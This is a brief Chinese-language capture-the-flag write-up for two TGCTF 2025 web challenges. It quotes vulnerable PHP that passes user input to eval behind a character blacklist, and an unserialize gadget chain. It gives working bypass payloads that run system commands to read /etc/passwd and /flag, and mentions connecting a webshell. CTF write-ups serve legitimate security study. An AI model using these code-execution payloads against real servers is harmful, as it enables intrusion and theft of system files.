

### web1

英文括号没被过滤
`system(hex2bin(2F).hex2bin(657463).hex2bin(2F).hex2bin(706173737764));`

```
$tgctf2025=$_GET['tgctf2025'];  
  
if(!preg_match("/0|1|[3-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $tgctf2025)){    //hint：你可以对着键盘一个一个看，然后在没过滤的符号上用记号笔画一下（bushi    eval($tgctf2025);  
}  
else{  
    die('(╯‵□′)╯炸弹！•••*～●');  
}  
  
highlight_file(__FILE__);
```
hex2bin('2F')

system(cat%20hex2bin(2f)flag);

print_r(get_defined_vars());
验证

**GET参数**：  
`?tgctf2025=eval(array_pop(next(get_defined_vars())));`  
此代码尝试通过PHP内部函数动态获取POST参数中的命令。

**POST参数**：  
`0=system('cat /flag');`  
通过POST提交的代码需要被`eval`执行。

`?tgctf2025=eval(end(current(get_defined_vars())));&b=system('cat /flag');`


### web2
User-Agent: *
Disallow: tgupload.php
Disallow: tgshell.php
Disallow: tgxff.php
Disallow: tgser.php
Disallow: tgphp.php
Disallow: tginclude.php


```
<?php error_reporting(0); class road{ public function __get($arg1) { $blacklist = ['DirectoryIterator', 'Error', 'Exception', 'SoapClient', 'FilesystemIterator', 'SimpleXMLElement', 'GlobIterator', 'ReflectionClass', 'ReflectionObject']; array_walk($this, function ($day1, $day2) use ($blacklist) { if (in_array($day2, $blacklist)) {die('hacker');} $day3 = new $day2($day1); foreach ($day3 as $day4) { echo ($day4 . '<br>'); } }); } } class river{ public $fish; public $shark; public function __invoke() { if (md5($this->fish) == $this->fish) { return $this->shark->upper; } } } class sky{ public $bird; public $eagle; public function __construct($a) { $this->bird = $a; } function __destruct() { echo $this->bird; } public function __toString() { $newFunc = $this->eagle; return $newFunc(); } } $way=$_POST['J']; @unserialize(base64_decode($way)); ?>
```


shell直接蚁剑连接